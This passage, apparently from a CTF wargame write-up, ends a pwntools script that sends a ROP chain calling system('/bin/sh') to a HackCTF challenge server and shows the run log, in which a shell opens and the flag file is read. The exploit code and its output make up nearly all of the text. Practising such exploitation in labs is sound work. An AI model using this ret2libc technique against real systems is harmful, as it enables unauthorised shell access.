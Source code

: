 payload2 = dummy
payload2 += p64(pr)
payload2 += p64(binsh_addr)
payload2 += p64(r)
payload2 += p64(system_addr)

p.sendline(payload2)
p.interactive()
```

```c
kimdong@ubuntu  ~/Wargame  python yes_or_no_ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3009: Done
[*] '/home/kimdong/Wargame/yes_or_no'
   Arch:     amd64-64-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x400000)
[*] '/home/kimdong/Wargame/libc-2.27.so'
   Arch:     amd64-64-little
   RELRO:    Partial RELRO
   Stack:    Canary found
   NX:       NX enabled
   PIE:      PIE enabled
0x7fa894e6f9c0
[*] Switching to interactive mode
$ ls
flag
main
$ cat flag
HackCTF{}
```

## END !
